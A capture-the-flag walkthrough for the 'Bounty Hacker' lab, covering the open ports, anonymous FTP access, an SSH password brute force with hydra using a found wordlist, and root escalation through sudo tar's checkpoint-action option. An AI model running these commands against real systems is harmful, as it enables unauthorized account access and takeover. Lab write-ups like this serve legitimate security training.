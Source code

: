 # Bounty Hacker

## Tasks

- What ports are open?

  - 21 ftp
  - 22 ssh
  - 80 http

- Who wrote the task list?

  - Using anonymous ftp access, we are able to access locks.txt and tasks.txt
  - We see that `lin` is the person who wrote tasks.txt

- What service can you bruteforce with the text file found?

  - ssh

- What is the users password?

  - After downloading the locks.txt file, we'll use hydra to find the password by bruteforcing ssh
    - `hydra -v -l lin -P locks.txt ssh://$IP`

- user.txt found in `~/Desktop/user.txt`

- root.txt
  - using `sudo -l` will show us that we can use tar as root
  - GTFO bins gives us the command to escalate our privileges
    - sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
